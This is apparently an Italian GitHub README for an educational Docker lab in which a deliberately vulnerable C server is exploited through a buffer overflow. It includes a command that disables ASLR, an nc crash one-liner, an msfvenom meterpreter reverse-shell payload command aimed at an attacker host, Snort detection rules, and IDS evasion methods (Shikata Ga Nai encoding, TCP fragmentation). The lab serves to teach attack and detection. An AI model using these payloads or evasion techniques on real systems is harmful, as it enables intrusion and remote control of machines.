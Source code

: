# Buffer_Overflow_1

Un attacco di buffer overflow in un contesto di reti, rilevabile tramite un IDS basato su Snort

# Exploit Buffer Overflow & Analisi IDS

## Panoramica

Questo progetto consiste nel realizzare uno scenario di attacco ad un server TCP con una **vulnerabilità di buffer overflow** in un ambiente containerizzato ed isoltato tramite Docker. L'obiettivo è comprendere il funzionamento di questo tipo di attacco, sviluppare un exploit funzionante per ottenere **una shell remota** sulla macchina target dell'attacco e testare un **Intrusion Detection System (IDS)** per identificare l'attacco monitorando il traffico di rete e successivamente bypassare il suo rilevamento.

Il progetto include:

- Un **server TCP vulnerabile** scritto in C implementato e compilato al fine di renderlo vulnerabile a questo tipo di attacco.
- Un serie di **exploit** che consentono di sfruttale la vulnerabilità, bypassare il controllo delle credenzialio ottenere una **reverse shell**.
- Un sistema IDS realizzato con Snort con alcune **regole IDS** per il rilevamento dell'attacco.
- **Tecniche di evasione IDS** per dimostrare i limiti dei sistemi rule-based.
  Lo scenario è stato realizzato in un ambiente containerizzato in cui le entità interagiscono secondo lo schema di rete di seguito riportato:
  ![](img/schema.png)

---

## Configurazione del Progetto

E' possibile avviare lo scenario lanciando lo script predisposto start_env.sh con privilegi di superuser, successivamente sarà necessario accedere al container del server e lanciare il server con uno script di avvio (start_server.sh) e operare l'esecuzione degli exploit collegandosi tramite shell interattiva alla container del client attaccante.

### Descrizione dello scenario

Il server contiene una vulnerabilità di buffer overflow realizzata tramite l'utilizzo della funzione strcpy() della libreria standard del linguaggio C, è compilato disabilitando le protezioni di sicurezza per facilitare l'exploit:

```bash
gcc -g -m32 -no-pie -fno-stack-protector -z execstack -Wl,-z,norelro -o server_vuln server_vuln.c
```

La sua implementazione è consultabile nel file server/server_vuln.c

Al fine di consentire l'attacco sarà inoltre necessario disabilitare i meccanismi di sicurezza del kernel atti a prevenire questo tipo di attacco, vale a dire l'ASLR:

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

Collegandosi al server lo stesso richiederà di inserire le credenziali di accesso al sistema, inserendo le credenziali corrette il sistema risponde con un messaggio di avvenuta autenticazione e restituisce una ASCII Art.
![](img/access.png)
Il client attaccante può testare il servizio inviando dapprima un input di elevate dimensioni utilizzando python da riga di comando:

```bash
python -c "print 'A'\*3000 | nc vulnerable_server 4444"
```

in questo modo, se il server non risponde e non fornisce risposta, vorrà dire che è crashato, questo non solo si configura come un attacco di Denial-of-Service, ma risulta essere un chiaro indizio sulla possibilità di un mancato controllo dell'input inviato dall'utente che espone il server ad una vulnerabilita di Buffer Overflow.

Procedendo in maniera incrementale, però è possibile sfruttare la vulnerabilità di buffer overflow e fornendo un input della giusta dimensione di potrà sovrascrivere il parametro di ritorno della funzione di autenticazione con un valore diverso da 0 e superare la verifica delle credenziali pur non conoscendole. Questo attacco è stato implementato ed è consultabile nel file **exploit_auth_result.py**.

Al fine di portare a termine un attacco più strutturato è necessario calcolare l'offset dell'input dopo il quale viene sovrascritto l' **Extended Instruction Pointer**, cella di memoria che contiene l'indirizzo della funzione chiamante per restituirgli il controllo.
Per far ciò è stato utilizzato il debugger gdb e gli strumenti del **Metasploit Framework (msf-pattern_create e msf-pattern_offset)** per ottenere questa informazione.
Successivamente è stato predisposto un payload contenenete codice da iniettare per l'apertura di una reverse TCP shell sulla macchina target verso la macchina attaccante attraverso il tool msfvenom del Framework Metasploit tramite il comando:

```bash
msfvenom −p linux/x86/meterpreter/reverse_tcp LPORT=5555 LHOST=172.25.0.20 PrependSetuid=true −f python
```

lo stesso è stato concatenato a del padding per riempire lo stack fino all'EIP, un indirizzo di memoria per sovrascrivere l'EIP con l'idirizzo di uan cella contenente il nostro codice iniettato, una serie di NOP slide instruction e l'effettivo payload generato. Lanciando l'exploit e facendo si che il client attacante si metta in ascolto sulla porta per specificata otterremo una shell remota della macchina target ormai compromessa.
![](img/shell.png)

## Configurazione IDS e Rilevamento dell'Attacco

Il sistema di rilevamento dell'attacco è stato realizzato con **Snort**, configurato per monitorare il traffico tra client e server con delle regole custom per il rilevamento di possibili attacchi sulla nostra rete interna. Sono state definite regole per rilevare l'attacco di buffer overflow analizzando pattern caratteristici nel payload inviato dall'attaccante.

### Regole IDS per il Rilevamento

Di seguito sono riportate due regole implementate in Snort per identificare il tentativo di exploit ed eventuali successive contromisure da parte dell'attaccante, definendo un escalation di tecniche di attacco e contromisure che sono state implementate ed analizzate nel presente elaborato.

#### Rilevamento di Sequenze Ripetute (Padding Overflow)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg:"Possible Exploit Attempt - Buffer Overflow";
    pcre:"/(.)\1{5,}/"; flow:to_server,established; sid:1000001; rev:1;)
```

##### Contromisura

La regola tuttavia può generare falsi positivi ed è facilmente bypassabile con sequenze casuali di caratteri per il padding.

#### Rilevamento di Firme associate all'esecuzione di /bin/shell (Shellcode Signature)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg:"Possible Exploit Attempt - Buffer Overflow (Shellcode Signature)"; content:"|b8 01 00 00 00 bb 01 00 00 00 cd 80|"; flow:to_server,established; classtype:attempted-admin; sid:1000003; rev:1;)
```

##### Contromisura

Utilizzando l'encoding Shitaka Ga Nai offerto da msfvenom possiamo facilmente bypassare il controllo

#### Rilevamento di Firme associate all'decoder Shitaka Ga Nai (Shellcode Signature)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg:"Possible Exploit Attempt - Buffer Overflow (Shikata Ga Nai - Shellcode Signature)"; content:"|d9 74 24 f4|"; flow:to_server,established; classtype:attempted-admin; sid:1000004; rev:1;)
```

##### Contromisura

Utilizzando la frammentazione TCP possiamo impedire all'ids, che di default verifica la presenza di firme associate alle regole nel singolo pacchetto, per frammentare il payload e bypassare il controllo

#### Configurazione di Snort per consentire all'IDS di ricostruire i flussi TCP

Configurazione del file snort.conf per abilitare il preprocessor stream5_tcp per analizzare il contenuto inviato nel flusso TCP ricostruendo i frammenti inviati.
